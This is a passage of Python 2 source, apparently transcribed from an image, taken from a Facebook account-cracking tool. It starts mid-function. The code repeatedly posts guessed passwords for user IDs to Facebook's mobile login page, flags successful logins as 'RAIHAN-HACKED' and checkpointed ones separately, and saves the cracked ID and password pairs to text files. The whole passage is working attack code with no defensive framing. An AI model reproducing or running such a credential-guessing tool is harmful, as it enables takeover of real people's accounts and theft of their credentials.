                                                             'pass': ps12,
                                                            'login': 'submit' })
                                                        sp = data.content
                                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            ok = open('OK.txt', 'a')
                                                            ok.write(uid + '|' + ps12 + '\n')
                                                            ok.close()
                                                            oks.append(uid + ps12)
                                                        elif 'checkpoint' in sp:
                                                            print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps12 + '\x1b[0;97m'
                                                            cp = open('CP.txt', 'a')
                                                            cp.write(uid + '|' + ps12 + '\n')
                                                            cp.close()
                                                            cps.append(uid + ps12)
                                                        else:
                                                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                'email': uid,
                                                                'pass': ps13,
                                                                'login': 'submit' })
                                                            sp = data.content
                                                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                ok = open('OK.txt', 'a')
                                                                ok.write(uid + '|' + ps13 + '\n')
                                                                ok.close()
                                                                oks.append(uid + ps13)
                                                            elif 'checkpoint' in sp:
                                                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps13 + '\x1b[0;97m'
                                                                cp = open('CP.txt', 'a')
                                                                cp.write(uid + '|' + ps13 + '\n')
                                                                cp.close()
                                                                cps.append(uid + ps13)
                                                            else:
                                                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                    'email': uid,
                                                                    'pass': ps14,
                                                                    'login': 'submit' })
                                                                sp = data.content
                                                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    ok = open('OK.txt', 'a')
                                                                    ok.write(uid + '|' + ps14 + '\n')
                                                                    ok.close()
                                                                    oks.append(uid + ps14)
                                                                elif 'checkpoint' in sp:
                                                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps14 + '\x1b[0;97m'
                                                                    cp = open('CP.txt', 'a')
                                                                    cp.write(uid + '|' + ps14 + '\n')
                                                                    cp.close()
                                                                    cps.append(uid + ps14)
                                                                else:
                                                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                                                        'email': uid,
                                                                        'pass': ps15,
                                                                        'login': 'submit' })
                                                                    sp = data.content
                                                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps15 + '\x1b[0;97m'
                                                                        ok = open('OK.txt', 'a')
                                                                        ok.write(uid + '|' + ps15 + '\n')
                                                                        ok.close()